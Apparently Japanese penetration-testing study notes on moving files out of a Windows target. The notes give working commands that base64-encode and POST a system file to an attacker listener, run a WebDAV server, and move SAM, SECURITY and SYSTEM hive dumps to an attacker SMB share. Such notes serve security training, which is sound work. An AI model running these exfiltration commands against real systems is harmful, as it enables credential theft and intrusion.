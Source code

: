 #### PowerShell Base64 Web アップロード
- `Invoke-WebRequest` や `Invoke-RestMethod` を使い、PowerShell でデータを送信
- `Netcat` を使い、指定したポートでリスニング
- `POST` リクエストとしてファイルを送信
- 出力をコピーして、base64 デコード関数でファイルに変換
##### 攻撃者側
base64エンコードした値を受け取る
```shell-session
nc -lvnp 8000
```
base64エンコードをファイルに戻す
```shell-session
 echo <base64> | base64 -d -w 0 > hosts
```

##### ターゲット側
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### SMBアップロード
- 以前、企業は通常、`HTTP`（TCP/80）および`HTTPS`（TCP/443）プロトコルを使用してアウトバウンドトラフィックを許可することについて議論した。
	- 一般的に、企業はSMBプロトコル（TCP/445）を内部ネットワークから外すことを許可しない
		- なぜなら、これは潜在的な攻撃に開放される可能性があるから
	- 代替
		- `WebDav`でHTTP上でSMBを実行すること
			- `WebDAV`[（RFC 4918）](https://datatracker.ietf.org/doc/html/rfc4918)は、WebブラウザとWebサーバーが相互に通信するために使用するインターネットプロトコルであるHTTPの拡張
		- `WebDAV`はHTTPSも使用できる
##### 攻撃者側
wsgidavとcherootの2つをインストールする必要ある
```shell-session
sudo pip3 install wsgidav cheroot
```

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
##### ターゲット側
Webdav シェアへの接続
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
- `DavWWWRoot`は、Windows Shellによって認識される特別なキーワード
- WebDAVサーバーにはそのようなフォルダは存在しない
- DavWWWRoot キーワードは、WebDAV サーバーのルートに接続している WebDAV 要求を処理する Mini-Redirector ドライバーに伝えます。
- サーバーに接続するときにサーバーに存在するフォルダを指定すると、このキーワードの使用を避けることができる

#### LinuxでSMBサーバーを建てる
##### ターゲット側
攻撃者がsmbを立てて、ターゲットのWindowsは、攻撃者に送る
```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```